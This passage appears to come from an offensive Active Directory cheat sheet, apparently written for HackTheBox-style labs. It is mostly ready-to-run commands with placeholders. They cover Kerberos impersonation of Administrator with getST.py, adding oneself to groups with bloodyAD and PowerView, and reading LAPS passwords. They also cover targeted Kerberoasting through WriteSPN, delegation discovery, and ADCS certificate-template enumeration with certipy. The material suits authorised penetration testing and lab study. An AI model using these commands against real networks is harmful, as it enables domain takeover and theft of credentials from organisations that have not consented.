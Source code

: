    ```bash
		getST.py '[DOMAIN]/[MY_PC]:[MY_PASS]' -dc-ip [IP] -spn 'cifs/[TARGET_PC_FQDN]' -impersonate Administrator
		```
		The `TARGET_PC_FQDN` is for example, `DC.SUPPORT.HTB`
	 4. Ticket login &rarr; Authentication
##### AddMember / AddSelf
 Add youself to the group
 - Linux
	```bash
	bloodyAD --host [DC FQDN] --dc-ip [DC_IP] -d [DOMAIN] -u [USER] -p [PASS] add groupMember '[GROUP_DIST_NAME]' [YOUR_USER]
    ```
	`GROUP_DIST_NAME` is the Distinguished Name of the group (see Bloodhound)
- Windows (Powerview)
  ```powershell
  Add-DomainGroupMember -Identity '[GROUP]' -Members '[USER]'
	```
##### ReadLAPS
- nxc
  ```bash
  nxc winrm [IP] [AUTH_STRING] --laps
	```
- BloodyAD
  ```bash
  bloodyAD --host [DC_FQDN] --dc-ip [DC_IP] -d [DOMAIN] [AUTH_STRING] get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime	
  ```
##### WriteSPN
- From Linux
	```bash
	targetedKerberoast.py [AUTH_STRING] -f hashcat -d [DOMAIN]
	```
- From Windows (Powerview)
  ```powershell
  Set-DomainObject -Identity [TARGET] -SET @{serviceprincipalname='fake/pwned'}
  Get-DomainUser [TARGET] -SPN | Get-DomainSPNTicket -Format Hashcat
	```
#### DELEG Abuse
```bash
nxc ldap [DC_IP] [AUTH_STRING] --find-delegation
```
If NXC finds something, just research the name of the finding
#### ADCS Abuse
```bash
certipy-ad find -u username@domain -p pwd -dc-ip [DC_IP] -vulnerable -stdout
```
1. Check the Enroll group
2. Run the command with a user in the Enroll group
3. Research the corresponding `ESC` type exploits in [ESC Exploitation](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)
	- Attacker and victim are users, that will have some requirements
	- During the exploits, any user that needs to request a certificate will need to be in the enroll group
	- Use `certipy-ad` if `certpy` was used
	- `-target` is always the domain controller (DNS controller in previous output)
	- `-ca` is the CA name in the previous output
